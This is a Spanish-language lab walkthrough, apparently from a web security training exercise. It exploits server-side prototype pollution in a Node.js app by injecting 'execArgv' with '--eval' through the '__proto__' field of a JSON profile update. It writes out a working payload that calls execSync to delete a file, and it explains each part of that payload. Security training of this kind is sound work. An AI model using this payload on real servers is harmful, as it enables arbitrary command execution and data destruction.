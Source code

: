 En esta clase explotamos una vulnerabilidad de server-side prototype pollution en una aplicación Node.js que nos permite ejecutar comandos arbitrarios en el sistema. Usamos la funcionalidad de cambio de dirección para enviar un objeto JSON con la propiedad ‘**proto**‘, inyectando un campo ‘**execArgv**‘ que se utiliza en los procesos hijos del servidor.

Al manipular este campo con el argumento ‘**–eval**‘, forzamos al proceso a ejecutar código JavaScript, como una llamada a ‘**execSync**‘. Inicialmente probamos la ejecución contactando con Burp Collaborator mediante una petición **curl**, y al confirmarlo, sustituimos ese comando por otro que elimina el archivo ‘**/home/carlos/morale.txt**‘.

Esta clase demuestra cómo una simple entrada JSON puede comprometer por completo el sistema, combinando prototype pollution con ejecución de comandos a nivel de servidor.

Solucion
vamos a interceptar esto vemos que ya somos admin
![Pasted_image_20250901004554.png](Imagenes/Pasted_image_20250901004554.png)
![Pasted_image_20250901004741.png](Imagenes/Pasted_image_20250901004741.png)
si nos regresamos a la pagina y le damos click al admin panel nos sale esto y de igual forma vamos a interceptarlo
![Pasted_image_20250901004844.png](Imagenes/Pasted_image_20250901004844.png)
![Pasted_image_20250901004941.png](Imagenes/Pasted_image_20250901004941.png)
vamos a tratar de ver si es vulnerable a prototipe el profile de esta manera (,"__proto__":{"json spaces":10})
vemos que si
![Pasted_image_20250901005310.png](Imagenes/Pasted_image_20250901005310.png)
y podemos meter una nuevo argumento
"__proto__": {"execArgv":["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]}
¿Qué está intentando hacer?
• 	execArgv: es una propiedad que se usa en Node.js para pasar argumentos al proceso principal cuando se inicia.
• 	--eval: le dice a Node que ejecute el código que sigue directamente como si fuera un script.
• 	require('child_process').execSync(''): ejecuta un comando del sistema de forma síncrona.
• 	rm /home/carlos/morale.txt: intenta borrar el archivo  en la ruta especificada

![Pasted_image_20250901010218.png](Imagenes/Pasted_image_20250901010218.png)
y su volvemos al admin panel y le damos al boton vemos que se a eliminando
![Pasted_image_20250901010322.png](Imagenes/Pasted_image_20250901010322.png)

